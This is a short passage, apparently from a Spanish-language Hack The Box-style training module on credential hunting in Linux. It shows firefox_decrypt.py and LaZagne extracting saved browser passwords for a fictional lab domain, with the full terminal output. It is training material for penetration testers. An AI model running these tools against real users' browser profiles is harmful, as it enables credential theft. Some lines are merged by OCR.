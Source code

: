 ### **Descifrar credenciales de Firefox**

Cedencial de caza en Linux

```
xnoxos@htb[/htb]$ python3.9 firefox_decrypt.pySelect the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'

```

Alternativamente,`LaZagne`También puede devolver los resultados si el usuario ha utilizado el navegador compatible.

### **Navegadores - Lazagne**

Cedencial de caza en Linux

```
cry0l1t3@unixclient:~$ python3 laZagne.py browsers|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Firefox passwords -----------------

[+] Password found !!!
URL: https://testing.dev.inlanefreight.com
Login: test
Password: test

[+] Password found !!!
URL: https://www.inlanefreight.com
Login: cry0l1t3
Password: FzXUxJemKm6g2lGh

[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 0.2310788631439209
```